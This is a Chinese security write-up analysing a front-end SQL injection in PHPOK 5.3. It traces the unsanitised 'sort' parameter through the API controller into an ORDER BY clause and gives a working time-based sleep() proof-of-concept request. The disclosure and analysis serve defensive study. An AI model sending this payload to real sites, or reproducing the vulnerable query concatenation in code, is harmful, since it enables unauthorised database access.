


# 某OK 5.3 最新版前台无限制注入（二） - 先知社区

某OK 5.3 最新版前台无限制注入（二）

- - -

最近跟了一下最新phpok，分享一下挖掘思路  
下载地址：[https://www.phpok.com/phpok.html](https://www.phpok.com/phpok.html)

## 分析

注入点：framework/model/list.php#arc\_all

```plain
public function arc_all($project,$condition='',$field='*',$offset=0,$psize=0,$orderby='')
    {
        if($this->_total > 100000 && $offset > 10000){
            return $this->_arc_all($project,$condition,$field,$offset,$psize,$orderby);
        }
        $sql  = " SELECT ".$field." FROM ".$this->db->prefix."list l ";
        $sql .= " JOIN ".$this->db->prefix."list_".$project['module']." ext ";
        $sql .= " ON(l.id=ext.id AND l.site_id=ext.site_id AND l.project_id=ext.project_id) ";
        if($project['is_biz']){
            $sql .= " LEFT JOIN ".$this->db->prefix."list_biz b ON(b.id=l.id) ";
        }
        if($project['cate'] && $project['cate_multiple']){
            $sql.= " LEFT JOIN ".$this->db->prefix."list_cate lc ON(l.id=lc.id) ";
        }
        if($condition){
            $sql .= " WHERE ".$condition." ";
        }
        // 拼接$orderby参数
        if($orderby){
            $sql .= " ORDER BY ".$orderby." ";
        }
        if($psize){
            $sql .= " LIMIT ".intval($offset).",".$psize;
        }
        //注入
        $rslist = $this->db->get_all($sql,'id');
        if(!$rslist){
            return false;
        }
        return $this->_arc_list_format($rslist,$project);
    }
```

回溯寻找调用链：`framework/phpok_call.php#_arclist`

```plain
private function _arclist($rs,$cache_id='')
{
    // 264行
    $orderby = $rs['orderby'] ? $rs['orderby'] : $project['orderby'];

    // 270行 调用arc_all函数，将$orderby传入
    $rslist = $this->model('list')->arc_all($project,$condition,$field,$offset,$psize,$orderby);
```

回溯：framework/api/project\_control.php#load\_module

```plain
private function load_module($rs,$parent_rs='')
{
    // 91行
    $keywords = $this->get("keywords");
    $ext = $this->get("ext");
    $tag = $this->get("tag");
    $uid = $this->get('uid','int');
    $attr = $this->get('attr');
    //价格，支持价格区间
    $price = $this->get('price','float');
    $sort = $this->get('sort');

    //186行
    if($sort){
        $dt['orderby'] = $sort;  // 可控
        $pageurl .= '&sort='.rawurlencode($sort);
        $this->rlist['sort'] = $sort;
    }
    // 208行，通过phpok函数动态调用_arclist()函数
        $info = $this->call->phpok('_arclist',$dt);
```

继续回溯，找谁调用了`load_module()`：framework/api/project\_control.php#index\_f

```plain
public function index_f()
{
    //65行
        if($project["module"]){
        $this->load_module($project,$parent_rs);
    }
}
```

在控制器里以`_f`结尾的函数都可以直接被调用  
构造poc:`/api.php?c=project&f=index&token=1234&id=news&sort=(sleep(5))`

## 复现：

poc:

```plain
GET /api.php?c=project&f=index&token=1234&id=news&sort=(sleep(5)) HTTP/1.1
Host: phpok5_3_147
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux i686) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3833.131 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSION=l87bngd1u307g20iudfmphisu4; XDEBUG_SESSION=PHPSTORM
Connection: close
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20191125161910-41ae0d4c-0f5c-1.png)

sleep(4)延时24秒

[](https://xzfile.aliyuncs.com/media/upload/picture/20191125161958-5ea36afa-0f5c-1.png)

数据库特性，查出几列数据order by会sleep几倍时间：

[](https://xzfile.aliyuncs.com/media/upload/picture/20191125162025-6e6c7df0-0f5c-1.png)
